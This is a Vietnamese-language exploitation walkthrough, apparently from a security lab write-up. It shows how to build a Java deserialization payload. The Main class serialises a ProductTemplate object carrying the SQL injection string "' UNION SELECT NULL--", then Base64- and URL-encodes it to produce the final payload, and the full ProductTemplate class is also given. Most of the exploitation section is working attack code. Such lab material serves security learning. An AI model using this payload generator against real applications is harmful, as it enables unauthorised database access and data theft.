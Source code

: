 ### Khai thác

- Đầu tiên, tạo một package với tên data.productcatalog, các file java của chúng ta sẽ đặt trong package này, vì nếu không tạo package hoặc đặt tên sai sẽ dẫn tới lỗi package không tồn tại.
- Ta sẽ tạo các file theo cấu trúc như sau:

![image](https://hackmd.io/_uploads/BJCKBYxoT.png)

- với source class Main: chúng ta sử dụng file này tạo payload. Gồm
  - một hàm thực hiện Serialize
  - Một hàm thực hiện đọc dữ liệu kết quả Serialize, sau đó sử dụng mã hóa Base64 và mã hóa URL cho ra payload cuối cùng. Do dữ liệu cần đọc ở dạng bytes nên chúng ta dùng phương thức Files.readAllBytes()

```java!
package data.productcatalog;

import java.io.*;
import java.net.URLEncoder;
import java.nio.file.Files;
import java.util.Base64;

public class Main {
    public static void main(String[] args) throws IOException {
        ProductTemplate productTemplate = new ProductTemplate("' UNION SELECT NULL--");
        Ser(productTemplate);
        ReadAndOut();
    }
    public static void Ser(Object obj) throws IOException {
        FileOutputStream fileOutputStream = new FileOutputStream("test.txt");
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
        objectOutputStream.writeObject(obj);
        objectOutputStream.close();
    }
    public static void ReadAndOut() throws IOException {
        File file = new File("test.txt");
        byte[] bytes = Files.readAllBytes(file.toPath());
        String output = Base64.getEncoder().encodeToString(bytes);
        output = URLEncoder.encode(output, "UTF-8");
        System.out.println(output);
    }
}
```

- với source class ProductTemplate: Chúng ta cần sử dụng tới lớp ProductTemplate, tạo file ProductTemplate.java

```javas!
package data.productcatalog;

import java.io.Serializable;

public class ProductTemplate implements Serializable {
    static final long serialVersionUID = 1L;
    private final String id;
    public ProductTemplate(String id) {
        this.id = id;
    }
}
```
